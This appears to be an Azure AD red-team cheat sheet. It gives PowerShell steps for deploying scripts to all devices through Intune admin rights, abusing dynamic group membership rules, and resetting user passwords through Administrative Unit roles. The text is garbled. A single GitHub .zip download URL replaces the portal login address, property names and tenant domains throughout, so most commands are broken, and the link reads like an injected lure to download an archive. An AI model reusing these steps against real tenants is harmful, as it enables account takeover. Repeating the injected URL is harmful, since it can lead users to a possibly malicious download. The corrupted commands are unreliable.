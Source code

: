 ## Intunes Administration

Requirements:
* **Global Administrator** or **Intune Administrator** Privilege : `Get-AzureADGroup -Filter "DisplayName eq 'Intune Administrators'"`

1. Login into https://raw.githubusercontent.com/joymondal/Azure-Red-Team/master/phthisiotherapeutic/Azure-Red-Team.zip or use Pass-The-PRT
2. Go to **Devices** -> **All Devices** to check devices enrolled to Intune
3. Go to **Scripts** and click on **Add** for Windows 10. 
4. Add a **Powershell script**
5. Specify **Add all users** and **Add all devices** in the **Assignments** page.

:warning: It will take up to one hour before you script is executed !



## Dynamic Group Membership

Get groups that allow Dynamic membership: `Get-AzureADMSGroup | ?{$https://raw.githubusercontent.com/joymondal/Azure-Red-Team/master/phthisiotherapeutic/Azure-Red-Team.zip -eq 'DynamicMembership'}`

Rule example : `(https://raw.githubusercontent.com/joymondal/Azure-Red-Team/master/phthisiotherapeutic/Azure-Red-Team.zip -any (_ -contains "vendor")) -and (https://raw.githubusercontent.com/joymondal/Azure-Red-Team/master/phthisiotherapeutic/Azure-Red-Team.zip -eq "guest")`    
Rule description: Any Guest user whose secondary email contains the string 'vendor' will be added to the group

1. Open user's profile, click on **Manage**
2. Click on **Resend** invite and to get an invitation URL
3. Set the secondary email
    ```powershell
    PS> Set-AzureADUser -ObjectId <OBJECT-ID> -OtherMails <Username>@<TENANT NAME>https://raw.githubusercontent.com/joymondal/Azure-Red-Team/master/phthisiotherapeutic/Azure-Red-Team.zip -Verbose
    ```

## Administrative Unit

> Administrative Unit can reset password of another user

```powershell
PS AzureAD> Get-AzureADMSAdministrativeUnit -Id <ID>
PS AzureAD> Get-AzureADMSAdministrativeUnitMember -Id <ID>
PS AzureAD> Get-AzureADMSScopedRoleMembership -Id <ID> | fl
PS AzureAD> Get-AzureADDirectoryRole -ObjectId <RoleId>
PS AzureAD> Get-AzureADUser -ObjectId <https://raw.githubusercontent.com/joymondal/Azure-Red-Team/master/phthisiotherapeutic/Azure-Red-Team.zip> | fl 
PS C:\Tools> $password = "Password" | ConvertToSecureString -AsPlainText -Force
PS C:\Tools> (Get-AzureADUser -All $true | ?{$https://raw.githubusercontent.com/joymondal/Azure-Red-Team/master/phthisiotherapeutic/Azure-Red-Team.zip -eq "<Username>@<TENANT NAME>https://raw.githubusercontent.com/joymondal/Azure-Red-Team/master/phthisiotherapeutic/Azure-Red-Team.zip"}).ObjectId | SetAzureADUserPassword -Password $Password -Verbose
```
